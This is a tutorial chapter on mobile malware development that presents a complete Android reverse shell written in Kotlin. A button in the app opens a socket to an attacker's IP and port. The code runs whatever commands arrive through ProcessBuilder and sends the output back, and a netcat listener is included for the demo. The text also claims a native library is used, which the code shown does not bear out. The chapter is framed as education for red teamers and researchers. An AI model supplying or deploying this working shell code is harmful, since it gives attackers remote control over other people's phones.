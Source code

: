 ## 8. mobile malware development trick. Socket development. Simple Android (Java/Kotlin) example.

﷽

![malware](./images/7/rev2.png){width="80%"}      

On Android, you can write a reverse shell in Kotlin that will work within the permissions available to the user. Such a reverse shell can use Android's capabilities to interact with a remote server via a socket and does not require access to the file system.        

### practical example

We can use sockets to create a communication channel with a remote server, and send commands through this channel. Instead of using the `execve()` command, we will execute commands using *Java ProcessBuilder*.     

Your project looks like there (`HackRev2` in my case):     

![malware](./images/7/2025-05-17_12-39.png){width="80%"}       

Let's start by looking at the Android app. We'll create a simple button that triggers a Toast message and also loads a native library that contains the reverse shell functionality.      

Simple reverse shell example in Kotlin:     

```kotlin
package com.example.hackrev

import android.os.Bundle
import android.widget.Button
import android.widget.Toast
import androidx.activity.ComponentActivity
import java.io.BufferedReader
import java.io.InputStreamReader
import java.io.OutputStream
import java.net.Socket

class MainActivity : ComponentActivity() {
    private lateinit var meowButton: Button

    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        setContentView(R.layout.activity_main)

        meowButton = findViewById(R.id.meowButton)
        meowButton.setOnClickListener {
            Toast.makeText(
                applicationContext,
                "Meow! Reverse Shell Activated!",
                Toast.LENGTH_SHORT
            ).show()

            // start the reverse shell in a background thread
            Thread {
                startReverseShell("172.16.16.251", 4444) // your attacker's IP and port
            }.start()
        }
    }

    private fun startReverseShell(remoteHost: String, remotePort: Int) {
        try {
            // create a socket connection to the attacker's machine
            val socket = Socket(remoteHost, remotePort)
            val inputStream = socket.getInputStream()
            val outputStream = socket.getOutputStream()

            val reader = BufferedReader(InputStreamReader(inputStream))
            val writer = outputStream.bufferedWriter()

            // send a welcome message to the attacker
            writer.write("connected to android reverse shell! meow =^..^=\n")
            writer.flush()

            // create a process to run shell commands
            while (true) {
                // read commands from the attacker
                val command = reader.readLine()

                if (command == null || command.equals("exit", ignoreCase = true)) {
                    break
                }

                // execute the command
                val process = ProcessBuilder(command.split(" ")).start()

                // get the process output
                val processReader = BufferedReader(InputStreamReader(process.inputStream))
                val processOutput = StringBuilder()
                var line: String?
                while (processReader.readLine().also { line = it } != null) {
                    processOutput.append(line).append("\n")
                }

                // send back the output of the command to the attacker
                writer.write(processOutput.toString())
                writer.flush()
            }

            // close resources
            writer.close()
            reader.close()
            socket.close()

        } catch (e: Exception) {
            e.printStackTrace()
        }
    }
}
```

We create a socket to connect to the remote host using `Socket(remoteHost, remotePort)`.      

This allows us to establish two-way communication between the device and the attacker's server.     

Then, we use `BufferedReader` to read commands sent over the socket (for example, the command the attacker wants to run on the device).     

The commands are executed using `ProcessBuilder`. This allows us to run processes on Android, but since we don't have file system access, we will limit ourselves to standard commands that can be executed within the bash shell or similar.        

Then sending back results: the result of the command execution is read and sent back over the socket, so the attacker can see the output.     

After finishing the work, we close the socket connection to finish the session.       

The socket connection is established using the remote host IP and port defined in the code, in my case IP `172.16.16.251`:       

![malware](./images/7/2025-05-17_11-43.png){width="80%"}       

This is a "dirty PoC", on some devices it may not work, this is due to limitations in Android.      

### demo

On the attacker's machine, as usually use netcat or any other tool to listen for the incoming connection:    

```bash
nc -nlvp 4444
```

this will listen on port 4444 for incoming connections from the Android device:    

![malware](./images/7/2025-05-17_11-44.png){width="80%"}       

After installing the app on the target device, click the button to trigger the reverse shell:     

![malware](./images/7/2025-05-17_11-47.png){width="80%"}       

![malware](./images/7/2025-05-17_12-47-32.jpg){height="30%"}     

![malware](./images/7/2025-05-17_12-25_1.png){width="80%"}     

![malware](./images/7/2025-05-17_12-25.png){width="80%"}     

If everything is set up correctly, the attacker's Netcat listener will receive the shell from the Android device.     

![malware](./images/7/rev2.png){width="80%"}      

In this tutorial, we’ve walked through how to build a simple reverse shell that works on an Android device using Kotlin. By combining Kotlin for the frontend interface and native logic for the reverse shell functionality, we created an app that listens for user input to trigger a remote shell.      

This example highlights how an Android app can be used to silently execute malicious code, opening the door to remote control over the device. Understanding these techniques is critical for both penetration testers and security researchers to help secure Android applications against such exploits.      

Keep in mind that this method is a basic demonstration for educational purposes, and ethical hacking practices should always be followed when testing security.      

I hope this section with practical example is useful for entry level malware researchers, red teamers, spreads awareness to the blue teamers of this simple example.    

[Android Studio](https://developer.android.com/studio)     
[Socket](https://developer.android.com/reference/java/net/Socket)      
[InputStreamReader](https://developer.android.com/reference/java/io/InputStreamReader?hl=en)      
[BufferedReader](https://developer.android.com/reference/java/io/BufferedReader?hl=en)     
[ProcessBuilder](https://developer.android.com/reference/java/lang/ProcessBuilder?hl=en)     
